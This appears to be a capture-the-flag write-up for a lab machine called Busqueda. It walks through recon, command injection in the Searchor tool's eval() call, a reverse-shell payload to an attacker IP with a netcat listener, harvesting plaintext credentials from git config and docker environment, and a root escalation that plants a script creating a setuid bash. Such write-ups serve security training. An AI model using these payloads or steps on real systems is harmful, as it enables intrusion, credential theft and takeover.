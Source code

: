 ## 🛰️ Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.208
nmap -p 22,80 -sCV 10.10.11.208
```

### HTTP Service
- Apache/2.4.52 + Flask (Werkzeug/2.1.2 Python/3.10.6).
- Redirects to: `http://searcher.htb`

### Virtual Host
Add to `/etc/hosts`:
```text
10.10.11.208 searcher.htb
```

### Directory Fuzzing
```bash
feroxbuster -u http://searcher.htb
```

Found:
- `/search`

---

## 💥 Exploitation (RCE via Python `eval()`)

### Vulnerable App
- Uses [Searchor](https://github.com/searchor/Searchor) CLI (v2.4.0).
- Eval-based CLI argument parsing vulnerable to command injection.

### Injection PoC
```bash
searchor search GitHub "' + __import__('os').popen('id').read() + '"
```

### Reverse Shell Payload (Injected via Burp)
```python
' + __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() + '
```

### Listener
```bash
nc -lnvp 443
```

---

## 🧠 Enumeration (as `svc`)

### Home Directory
```bash
cat ~/.gitconfig  # reveals username "cody"
```

### Web App Path
```bash
cd /var/www/app
ls -la
cat .git/config
```

- Remote repo: `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/...`

---

## 🔐 Credentials Discovered
- `cody / jh1usoih2bkjaspwe92` (from .git/config)
- `gitea / yuiu1hoiu4i5ho1uh` (from docker inspect ENV)

---

## 🧬 Gitea

Add to `/etc/hosts`:
```text
10.10.11.208 gitea.searcher.htb
```

- Login as `cody` with found creds.
- Also test `administrator / yuiu1hoiu4i5ho1uh` → ✅
- Found private repo: `scripts`
- Contains: `system-checkup.py`

---

## 🔼 Privilege Escalation

### `sudo -l`
```bash
sudo -l
```
```text
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Script Behavior
- `full-checkup` runs `./full-checkup.sh` from CWD.

### Exploit
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Run Bash as Root
```bash
/tmp/0xdf -p
```

---

## 🏁 Flags

```bash
cat /home/svc/user.txt
cat /root/root.txt
```